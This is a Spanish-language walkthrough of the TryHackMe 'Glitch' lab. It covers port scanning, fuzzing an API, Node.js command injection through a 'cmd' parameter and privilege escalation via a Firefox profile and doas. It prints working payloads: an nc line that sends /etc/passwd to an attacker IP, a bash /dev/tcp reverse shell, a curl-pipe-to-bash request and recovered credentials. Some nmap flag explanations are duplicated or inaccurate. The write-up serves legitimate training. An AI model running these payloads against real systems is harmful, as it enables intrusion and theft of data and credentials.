





La maquina `glitch` es una maquina sencilla, que para hacer una intrusión debemos vulnerar un parametro en el cual inyectaremos codigo `node js` para asi poder escalar privilegios haciendo uso de un archivo `.firefox` y de `doas`


- Link [Glitch](https://tryhackme.com/room/glitch)
- Created by [infamous55](https://tryhackme.com/p/infamous55)

# Metodología

- Enumeración
  - Escaneo de puertos
  - Enumeración del puerto 80
  - Cambio de Token
  - Fuzzing
- Explotación
  - Node js RCE
- Escalar Privilegios
  - User
  - V0id
  - root


# Walkthrough

## Enumeración

### Escaneo de puertos

Iniciamos con nusetra herramienta preferida a escanear los puerto de la maquina victima

```java
❯ nmap -p- --open --min-rate 5000 -vvv [IP-VICTIM] -Pn -n  -oG allportsScan
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack
```

Para entender un poco mas de los parametros que lanzamos con `nmap` podemos leer un poco lo siguiente:

`-p-`: Esta opción indica a Nmap que escanee todos los puertos en lugar de un rango específico. El guion ("-") significa "todos los puertos". Esto permite escanear todos los puertos desde el puerto 1 hasta el 65535.

`--open`: Esta opción le dice a Nmap que solo muestre los puertos que están abiertos. Los puertos abiertos son aquellos en los que un servicio está escuchando y aceptando conexiones.

`--min-rate 1000`: Esto establece la velocidad mínima de escaneo en 1000 paquetes por segundo. Cuanto mayor sea la velocidad de escaneo, más rápido se completará el escaneo, pero ten en cuenta que un escaneo más rápido puede ser más intrusivo y podría llamar la atención no deseada.

`[IP-VICTIM]`: Esta es la dirección IP del objetivo que se va a escanear. Debes reemplazarla por la dirección IP que deseas escanear.

`-Pn`: Esta opción indica a Nmap que no realice el descubrimiento de hosts (Ping) antes de escanear los puertos. Puedes usar esto si sabes que el host objetivo no responde a los paquetes de Ping.

`-n`: Esta opción le dice a Nmap que no realice la resolución de nombres DNS. Puedes usarlo si no deseas que Nmap realice búsquedas DNS inversas durante el escaneo.

`-oG allportsScan`: Esta opción le indica a Nmap que genere la salida en formato "greppable" (Grep) y la guarde en un archivo llamado "allportsScan". Este archivo contendrá información detallada sobre los puertos abiertos y otros detalles del escaneo.
Para entender un poco mas de los parametros que lanzamos con `nmap` podemos leer un poco lo siguiente:

`-p-`: Esta opción indica a Nmap que escanee todos los puertos en lugar de un rango específico. El guion ("-") significa "todos los puertos". Esto permite escanear todos los puertos desde el puerto 1 hasta el 65535.

`--open`: Esta opción le dice a Nmap que solo muestre los puertos que están abiertos. Los puertos abiertos son aquellos en los que un servicio está escuchando y aceptando conexiones.

`--min-rate 1000`: Esto establece la velocidad mínima de escaneo en 1000 paquetes por segundo. Cuanto mayor sea la velocidad de escaneo, más rápido se completará el escaneo, pero ten en cuenta que un escaneo más rápido puede ser más intrusivo y podría llamar la atención no deseada.

`[IP-VICTIM]`: Esta es la dirección IP del objetivo que se va a escanear. Debes reemplazarla por la dirección IP que deseas escanear.

`-Pn`: Esta opción indica a Nmap que no realice el descubrimiento de hosts (Ping) antes de escanear los puertos. Puedes usar esto si sabes que el host objetivo no responde a los paquetes de Ping.

`-n`: Esta opción le dice a Nmap que no realice la resolución de nombres DNS. Puedes usarlo si no deseas que Nmap realice búsquedas DNS inversas durante el escaneo.

`-oG allportsScan`: Esta opción le indica a Nmap que genere la salida en formato "greppable" (Grep) y la guarde en un archivo llamado "allportsScan". Este archivo contendrá información detallada sobre los puertos abiertos y otros detalles del escaneo.

### Enumeración de servicios y versiones

```java
❯ nmap -p80 -sC -sV -Pn -vvv [IP-VICTIM] -oN servicesScan
PORT   STATE SERVICE    REASON  VERSION
80/tcp open  tcpwrapped syn-ack
|_http-title: not allowed
|_http-server-header: nginx/1.14.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: HEAD POST OPTIONS
```

`-p80`: Esta opción especifica los puertos que se van a escanear. En este caso, se están escaneando los puertos 80. Los números de puerto están separados por comas y no se utiliza el rango de puertos.

`-sV`: Esta opción realiza la detección de versiones de servicios. Nmap intentará determinar qué servicios se están ejecutando en los puertos especificados y mostrará información sobre las versiones de esos servicios.

`-sC`: Activa los scripts de secuencia de comandos (scripts de automatización) de Nmap. Esto permite que Nmap ejecute scripts de detección y enumeración de servicios en los puertos especificados.

`-Pn`: Esta opción indica a Nmap que no realice el descubrimiento de hosts (Ping) antes de escanear los puertos. Si no se puede contactar con el host a través de Ping, Nmap aún intentará escanear los puertos especificados.

`-vvv`: Esto establece el nivel de verbosidad del escaneo en "muy alto". Esto significa que Nmap proporcionará una salida detallada que incluye información adicional sobre el progreso del escaneo.

`[IP-VICTIM]`: Debes reemplazar [IP-VICTIM] con la dirección IP del objetivo que deseas escanear. Este es el host en el que se realizará el escaneo.

`-oN servicesScan`: Esta opción le dice a Nmap que genere la salida en formato "greppable" (Grep) y la guarde en un archivo llamado "servicesScan". Este archivo contendrá información detallada sobre los servicios y versiones detectadas en los puertos especificados.


### Puerto 80

En la web solo tenemos una imagen



Hacemos `ctrl + u` vemos el codigo fuente



Tenemos una ruta de una `api` por lo que podemos ir a la ruta

```javascript
<script>
      function getAccess() {
        fetch('/api/access')
          .then((response) => response.json())
          .then((response) => {
            console.log(response);
          });
      }
    </script>
```

En la ruta encontraremos un texto en base64

### Cambio de Token 
```java
http://[IP-VICTIM]/api/access
"dGhpc19pc19ub3RfcmVhbA=="
```

El cual nos servira para usar como token, haciendo uso de `cookie-editor` una extensión del navegador



Ahora recargamos la web y podemos visualizar otra contenido en la web

### Fuzzing 

Teniendo la ruta `/api/`, vamos a enumerar subdirectorios 

```java
❯ wfuzz -c -f directoryWeb,raw -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://[IP-VICTIM]/api/FUZZ
```

Encontramos el direcotio `items` 

```java
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://[IP-VICTIM]/api/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                   
=====================================================================

000000750:   200        0 L      1 W        36 Ch       "access"
000001250:   200        0 L      1 W        169 Ch      "items" 
```

Hacemos una petición a sitio web y nos devuelve el texto `there_is_a_glitch_in_the_matrix` 

```java
❯ curl -X POST http://[IP-VICTIM]/api/items
{"message":"there_is_a_glitch_in_the_matrix"} 
```
## Explotación

Despues de un buen tiempo pensando y enumerando descubrir que en la ruta `http://[IP-VICTIM]/api/items` existe un paramatro 

```java
❯ wfuzz -c -f directoryWeb,raw -w /usr/share/wordlists/dirb/big.txt --hc 404 --hh=45 -X POST  http://[IP-VICTIM]/api/items?FUZZ\=test
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://[IP-VICTIM]/api/items?FUZZ=whoami
Total requests: 20469

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000004748:   500        10 L     64 W       1083 Ch     "cmd"   
```
Con `wfuzz` hacemos `fuzzing` y encontramos el parametro que haciendo uso de esto podemos ejecutar comandos

El siguiente post de [ibreak](https://ibreak.software/2016/08/nodejs-rce-and-a-simple-reverse-shell/) nos ayudara a explotar esta vulnerabilidad

### Node js RCE

```java
require('child_process').exec('cat+/etc/passwd+|+nc+attacker-ip+80')
```

Haciendo uso de `burpsuite` vamos a enviar nuestra petición, tenemos la peticion :

```java
POST /api/items?cmd=require('child_process').exec('cat%20/etc/passwd%20|%20nc%20[IP-ATTACKER]%2080') HTTP/1.1
Host: 10.10.97.12
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
If-None-Match: W/"a9-0aR6bAfiK/DB+A79vs3kEEVvJNc"
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

```

Enviamos la petición


Antes de enviar, ponemos a la escucha `nc` y tendremos el contenido `/etc/passwd`


```java
❯ ncat -lvnp 80
Ncat: Version 7.94 ( https://nmap.org/ncat )
Ncat: Listening on [::]:80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.97.12:55194.
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
user:x:1000:1000:user:/home/user:/bin/bash
v0id:x:1001:1001:,,,:/home/v0id:/bin/bash
```

¡Vamos, podemos ejecutar comandos!

### Revershell

Para obetener una shell haremos lo siguiente:

- Primero, creamos una archivo `index.html` en donde tendra nuestra revershell

```java
❯ nano index.html
❯ cat index.html
bash -i >& /dev/tcp/[IP-ATTACKER]/443 0>&1
```
- Segundo, iniciamos un servidor en python

```java
❯ python3 -m http.server 80
```

Ahora vamos a obtener una shell en la maquina victima

```java
POST /api/items?cmd=require('child_process').exec('curl%20http://[IP-ATTACKER]|bash') HTTP/1.1
Host: 10.10.97.12
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
If-None-Match: W/"a9-0aR6bAfiK/DB+A79vs3kEEVvJNc"
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
Enviamos nuestra petición y obtenemos nuestra shell

## Escalada de privilegios

### Usuario **user**


Luego realizaremos un tratamiento de la `tty`

```java
python -c import pty; pty.spawn("/bin/bash")
ctrl+z
stty raw -echo; fg
reset
xterm
```

Enumerando encontraremos un directorio que es `.firefox`  ddel cual podemos extraer credenciales.

Nos traemos a nuetra máquina atacante. Para copiar a nuestra maquina usaremos `nc`, haciendo lo siguiente

- Atacante
```java
❯ nc -lnvp 8888 > firefox.tar.gz
```

- Victima
```java
user@ubuntu:/tmp$ nc [IP-ATTACKER] 8888 -w 3 < firefox.tar.gz
```
Haciendo uso de [firefox_decrypt.py](https://github.com/unode/firefox_decrypt) podemos desencriptar las credenciales

```
❯ python3 firefox_decrypt.py /home/b0ysie7e/seven/tryhackme/maquinas/Glitch/content/.firefox/b5w4643p.default-release
2023-11-08 11:39:09,183 - WARNING - profile.ini not found in /home/b0ysie7e/seven/tryhackme/maquinas/Glitch/content/.firefox/b5w4643p.default-release
2023-11-08 11:39:09,183 - WARNING - Continuing and assuming '/home/b0ysie7e/seven/tryhackme/maquinas/Glitch/content/.firefox/b5w4643p.default-release' is a profile location

Website:   https://glitch.thm
Username: 'v0id'
Password: 'love_the_void'

```
### Usuario V0id

Haciendo uso de las credenciales podemos logueanos como el usuario `v0id`

En la pista nos dice que `sudo is bloat.`. Buscando algo de información nos damos con el siguiente post de [exploit-notes.hdks.org](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/doas/)

### Usuario root

Abusando de las congifuraciones podemos ejecutar comandos con `doas`



¡VAMOS!

**Happy hacking**